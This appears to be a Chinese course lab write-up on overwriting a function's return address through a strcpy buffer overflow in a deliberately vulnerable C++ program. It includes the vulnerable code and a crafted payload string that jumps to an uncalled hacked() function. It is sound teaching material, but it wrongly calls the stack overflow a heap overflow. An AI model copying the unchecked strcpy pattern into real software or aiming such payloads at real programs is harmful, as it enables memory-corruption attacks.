

# 缓冲区溢出漏洞利用 

## 1 实验环境

使用工具：Visual Studio 2019

## 2 实验目的

- 建立在上一个实验`缓冲区溢出漏洞观察实验`的基础上，利用堆溢出漏洞，使得一段原本**没有**调用函数hacked()的代码，**调用**hacked()函数。

## 3 实验内容

- 示例代码如下所示
    ```c++
    #define _CRT_SECURE_NO_WARNINGS

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    //堆溢出：即使函数没有被调用，也可以被执行
    void hacked() {
        printf("hacked!!");
    }

    int sub(char* x)
    {
        char y[10];
        //源地址的数据一个个写到目的地址，直到源地址读到\0为止
        //未考虑长度，用新的数据覆盖了原数据
        strcpy(y, x);
        return 0;
    }
    //在调试选项中输入的参数
    int main(int argc, char** argv)
    {
        //argv[0]是程序名 第二个参数才是输入的数据
        //在命令行下输入
        if (argc > 1)sub(argv[1]);
        printf("exit");
    }
    ```
- 修改项目属性，具体过程见[缓冲区溢出观察实验](../SDL-0x03-缓冲区溢出观察/缓冲区溢出观察实验.md)。
- 在`属性->配置属性->调试->命令参数`的地方填入一个长度`小于10`的参数，正常运行该代码，是不会调用函数hacked()。
- 由上一个实验知道，当参数长度超过规定范围的时候，就会覆盖返回地址，此时将程序运行时的hacked函数的地址填在返回地址的位置，就可以实现程序自动跳转到hacked函数，从而执行hacked函数，以下是具体的步骤：
  1. 固定程序运行的基址
     由于Visual Studio设置在运行时是随机基址，则每次运行程序的时候，函数的地址都是随机分配的，不利于实验，所以设置为固定基址。
        

  2. 判断返回地址的位置
       - 首先用参数测试，看到哪一位是返回地址，假设填入的长参数如下。
        
    
       - 运行调试器，转到反汇编，观察返回地址的位置。
            

       - hacked函数的地址。
            
       - 由于将地址的`\x`参数填在Visual Studio的命令参数处会被Visual Studio自动转义从而失效，所以改成字符串常量传参，代码修改如下。

            ```c++
            //在调试选项中输入的参数
            int main(int argc, char** argv)
            {
                //argv[0]是程序名 第二个参数才是输入的数据
                //在命令行下输入
                char str[50] = "";
                // 地址需要反过来写 hacked函数的地址为 21011580
                strcpy(str ,"1234123512361237\x80\x15\x01\x21");
                if (argc > 1)
                    sub(str);
                printf("exit");
            }
            ```
        - 成功执行hacked函数，由于hacked函数执行完后，回来原来的地方时即sub函数，地址已经被修改，所以无法正常回到main函数，即报错。

            

## 4 参考资料

* [jdltxdy的作业](https://github.com/YanhuiJessica/2019-SDL-Public-YanhuiJessica/tree/master/lab0x03%20BufferOverflow)